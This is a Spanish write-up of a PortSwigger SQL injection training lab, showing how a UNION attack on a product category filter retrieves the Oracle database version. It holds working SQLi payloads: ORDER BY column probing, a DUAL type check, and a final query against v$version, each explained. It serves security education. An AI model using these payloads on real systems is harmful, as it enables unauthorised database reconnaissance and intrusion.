


# Write-up - PortSwigger SQLi Lab 6

Voy a hacer un laboratorio de Port Swigger. El lab 6 de SQLi (En esta url: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

## Descripción:

**Lab: SQL injection attack, querying the database type and version on Oracle.**

**Traducción al Español:**

**Laboratorio: ataque de inyección SQL, consultando el tipo y la versión de la base de datos en Oracle.**

Este laboratorio contiene una vulnerabilidad de inyección SQL en el filtro de categoría de productos. Puedes usar un ataque `UNION` para recuperar los resultados de una consulta inyectada.

Para resolver el laboratorio, muestra la cadena de versión de la base de datos.

---

## Objetivo principal

Por tanto nuestro Objetivo Principal es:

**Obtener tipo y versión de la BBDD Oracle**

---

## Apertura del laboratorio

Le damos a abrir lab y nos abre una página con la url:

`https://0a790059039a42f682f9c596003f00d8.web-security-academy.net/`

La página web tiene el aspecto de la imagen 1.



**Referencia a la imagen 1:** Vista inicial del laboratorio de PortSwigger, donde aparece la tienda vulnerable y arriba se indica que el objetivo del laboratorio es hacer que la base de datos recupere determinadas cadenas de versión de Oracle.

---

## Preparación del entorno

Una vez dentro, abrimos burpsuitepro y en el navegador activamos el FoxyProxy para que en el HTTP History vayan apareciendo las distintas Requests mientras navegamos por la página.

Como ya nos da pistas la descripción del laboratorio, vamos a hacer el mismo de proceso de SQL injection UNION.

Para ello, nos vamos a la categoria de Gifts =>

`https://0a790059039a42f682f9c596003f00d8.web-security-academy.net/filter?category=Gifts`

Y desde burpsuite enviamos dicha petición al Repeater:

```http
GET /filter?category=Gifts HTTP/2
Host: 0a790059039a42f682f9c596003f00d8.web-security-academy.net
Cookie: session=836DfuI2qSchMJ2cRdLcBkgV5O33EBtP
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a790059039a42f682f9c596003f00d8.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Paso 1: Determinar el número de columnas

Y repetimos el mismo proceso de antes:

```http
' ORDER BY 1--
HTTP/2 200 OK

' ORDER BY 2--
HTTP/2 200 OK

' ORDER BY 3--
HTTP/2 500 Internal Server Error
```

Tenemos por tanto **2 columnas** en la tabla.

---

## Paso 2: Verificar el tipado de datos

Ahora necesitamos saber el tipado de datos, vamos a verificar si ambas columnas aceptan texto:

```http
' UNION SELECT 'a', 'a' from DUAL--
HTTP/2 200 OK
```

Por tanto sabemos que **ambas columnas aceptan texto**.

---

## Aclaración importante sobre Oracle y DUAL

En Oracle no puedes hacer un `SELECT` al aire. Necesitas un `FROM`.

**Mal (Error en Oracle):**

```sql
' UNION SELECT 'a', NULL--
```

**Bien (Correcto en Oracle):**

```sql
' UNION SELECT 'a', NULL FROM DUAL--
```

`DUAL` es una tabla especial de una sola fila y una sola columna que Oracle usa para que las consultas que no necesitan datos de una tabla real (como funciones o constantes) cumplan con la gramática de SQL.

---

## Paso 3: Payload final para obtener la versión

Ahora que tenemos toda esa info, vamos a utilizar esta cadena para obtener la información de laboratorio:

```http
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

---

## Explicación detallada del payload

### 1. El símbolo `+` (URL Encoding)

Cuando ves `+` en una petición capturada por Burp Suite o en la barra del navegador, representa un espacio en blanco.

Si enviaras espacios reales, el navegador o el servidor podrían cortar la petición o dar un error.

El servidor web, al recibir el `+`, lo traduce internamente de nuevo a un espacio para que la base de datos reciba:

```sql
' UNION SELECT...
```

---

### 2. La coma y el `NULL` (Equilibrio de Columnas)

Como ya sabes, un `UNION` solo funciona si ambas consultas tienen el mismo número de columnas.

Si la consulta original del producto pide 2 cosas (ej: nombre y precio), tú tienes que devolver 2 cosas.

`BANNER` es tu primer dato (la versión).

`NULL` es el "relleno" para la segunda columna. Usamos `NULL` porque no nos interesa ese dato y porque el nulo es compatible con cualquier tipo de dato (ya sea que la columna original fuera un precio numérico o una fecha).

---

### 3. `BANNER` y `v$version` (El tesoro de Oracle)

`BANNER`: Es el nombre de la columna que queremos leer. Si pusieras `SELECT *`, Oracle fallaría porque esa vista tiene más columnas de las que la web puede mostrar.

`v$version`: Es la tabla virtual (vista) donde Oracle guarda su identidad.

---

### 4. El guion doble `--` (La "guillotina")

Es fundamental para que la consulta sea gramaticalmente correcta.

Imagina que el código original de la web termina así:

```sql
... WHERE category = ' [TU INYECCIÓN] ' AND released = 1
```

Si no pones el `--`, la base de datos intentaría leer la comilla final (`'`) y el `AND released = 1`, lo que daría un error de sintaxis porque no sabría qué hacer con ese trozo de texto después de tu `UNION`.

El `--` le dice: **"Todo lo que haya a mi derecha, ignóralo".**

---

### 5. La comilla simple inicial `'`

Sirve para cerrar la cadena de texto que el programador empezó.

El programador escribió:

```sql
category = '
```

Tú escribes:

```sql
'
```

Resultado: La categoría se queda vacía (o con lo que pusieras antes) y la base de datos queda lista para recibir un nuevo comando (`UNION`).

---

## Resumen visual de la transformación

### Lo que el programador planeó:

```sql
SELECT a, b FROM products WHERE cat = 'Gifts' AND released = 1
```

### Lo que la base de datos ejecuta con tu formato:

```sql
SELECT a, b FROM products WHERE cat = '' UNION SELECT BANNER, NULL FROM v$version --' AND released = 1
```

---

## Resultado final

Y hemos resuelto el lab (imagen 2):



**Referencia a la imagen 2:** Resultado final del laboratorio resuelto. En la respuesta de la aplicación se muestran las cadenas de versión de Oracle recuperadas desde `v$version`, y en la parte superior aparece el aviso naranja de “Congratulations, you solved the lab!”.

Las cadenas que aparecen son:

```text
NLSRTL Version 11.2.0.2.0 - Production
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
PL/SQL Release 11.2.0.2.0 - Production
TNS for Linux: Version 11.2.0.2.0 - Production
```

---

## Conclusión

Con este laboratorio hemos identificado:

- que la consulta tenía 2 columnas,
- que ambas columnas aceptaban texto,
- que en Oracle hace falta usar `FROM DUAL` para consultas de prueba,
- y que la vista `v$version` expone la versión de la base de datos.

Payload final usado:

```http
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

Laboratorio resuelto.
